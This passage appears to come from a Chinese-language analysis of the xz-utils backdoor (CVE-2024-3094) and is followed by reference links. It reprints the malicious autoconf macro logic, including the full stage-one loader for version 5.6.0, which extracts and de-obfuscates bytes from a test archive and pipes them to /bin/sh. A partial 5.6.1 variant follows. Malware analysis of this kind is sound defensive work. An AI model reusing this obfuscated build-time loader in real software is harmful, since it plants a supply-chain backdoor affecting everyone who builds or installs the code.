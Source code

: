 在這段邏輯中，將會檢查是否有設定`gl_am_configmake`變數，如果沒有，後門將不會啟動

```shell
  if test "x$gl_am_configmake" != "x"; then
    gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
  else
    gl_[$1]_config=''
  fi
```

`gl_[$1]_config`將在`AC_CONFIG_COMMANDS([build-to-host], [eval $gl_config_gt | $SHELL 2>/dev/null], [gl_config_gt="eval \$gl_[$1]_config"])`中執行

如果變數存在，`gl_[$1]_config`將會從`tests/files/bad-3-corrupt_lzma2.xz`中拿到 phase 1 payload，在5.6.0和5.6.1版本具有差異

**5.6.0**

```shell
gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
gl_[$1]_config=`
####Hello####
#Z.hj
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir="../../$srcdir"
fi
export i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +724)";(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
####World####
`
```

**5.6.1**
```shell
gl_[$1]_config='sed \"r\n\" $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2>/dev/null'
gl_[$1]_config=`
####Hello####
#�$�
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
[ ! $(uname) = "Linux" ] && exit 0
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir="../../$srcdir"
fi
```

[^1]: [oss-security - backdoor in upstream xz/liblzma leading to ssh server compromise](https://www.openwall.com/lists/oss-security/2024/03/29/4)
[^2]: [FAQ on the xz-utils backdoor (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27#design)
[^3]: [landlock(7) - Linux manual page](https://man7.org/linux/man-pages/man7/landlock.7.html)
[^4]: [CheckCSourceCompiles — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckCSourceCompiles.html)
[^5]: [CheckIncludeFile — CMake 3.29.2 Documentation](https://cmake.org/cmake/help/latest/module/CheckIncludeFile.html)
[^6]: [research!rsc: The xz attack shell script](https://research.swtch.com/xz-script)
[^7]: [amlweems/xzbot](https://github.com/amlweems/xzbot)
[^8]: [XZ Utils backdoor](https://tukaani.org/xz-backdoor/)
[^9]: [xz-utils backdoor situation](https://gist.github.com/martenson/398bdb7a928069cf67606c9ba919a7ce)
[^10]: [xz-utils backdoor situation (CVE-2024-3094)](https://gist.github.com/thesamesam/223949d5a074ebc3dce9ee78baad9e27)
